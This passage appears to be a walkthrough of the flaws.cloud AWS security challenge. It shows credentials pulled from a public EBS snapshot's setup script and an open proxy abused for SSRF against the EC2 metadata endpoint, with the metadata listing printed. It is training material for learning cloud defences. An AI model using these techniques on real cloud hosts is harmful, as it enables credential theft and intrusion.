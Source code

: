 Read setup file, grab username and password: 

`cat /mnt/home/ubuntu/setupNginx.sh`

```
htpasswd -b /etc/nginx/.htpasswd (redacted) (redacted)
```

Enter username/password in site to navigate to Level 5: 

`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud`

## Lessons Learned: 
```
EBS volume snapshots containing non-public data should never be made public
```
```
If an EBS volume snapshot needs to be shared with another AWS account, this is not done by making the snapshot public. It is done by specifically sharing the snapshot with the target account.
```

# Level 5
This EC2 has a simple HTTP only proxy on it. Here are some examples of it's usage:

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/flaws.cloud/

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/summitroute.com/blog/feed.xml

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/

See if you can use this proxy to figure out how to list the contents of the level6 bucket at level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud that has a hidden directory in it.

Need a hint? Go to Hint 1



Since this is a proxy, everything after the `/proxy/` statement is being redirected. 

So to navigate to cnn.com: 

`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/cnn.com/`

This means we can try to abuse the proxy to hit the metadata service, assuming IMDSv1 has not been disabled: 

`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/`
```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hostname
iam/
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
```